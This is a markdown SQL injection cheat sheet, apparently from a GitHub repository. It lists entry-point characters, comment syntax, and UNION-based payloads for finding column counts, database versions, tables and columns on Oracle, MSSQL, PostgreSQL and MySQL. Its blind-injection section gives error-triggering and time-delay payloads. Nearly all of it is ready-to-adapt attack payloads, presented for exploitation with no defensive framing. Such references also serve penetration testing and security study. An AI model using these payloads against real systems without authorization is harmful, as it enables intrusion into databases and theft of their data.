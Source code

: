 # Check for SQLi
## Determine entry point
**All SQL types:**
```
'
"
`
')
")
`)
'))
"))
`))
```
## Comments after query injection
**Oracle:**
```sql
--comment
```
**PostgreSQL, MSQL, MySQL, SQLite:**
```sql
-- comment [note the space after the double hyphen]
/*comment*/
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it ╰(*°▽°*)╯

## Get number of columns
**MySQL, MSQL, PostgreSQL:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
## Get database versions
**Oracle:**
```sql
SELECT banner FROM v$version
SELECT version FROM v$instance
```
**MySQL, MSQL:**
```sql
SELECT @@version
```
**PostgreSQL:**
```sql
SELECT version()
```
## Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
## Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```
## Concatenate strings
**Oracle, PostgreSQL:**
```sql
'foo'||'bar'
```
**MSQL:**
```sql
'foo'+'bar'
```
**MySQL:**
```sql
'foo' 'bar' -- Note the space between the two strings
CONCAT('foo','bar')
```

# Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

## Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

## Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```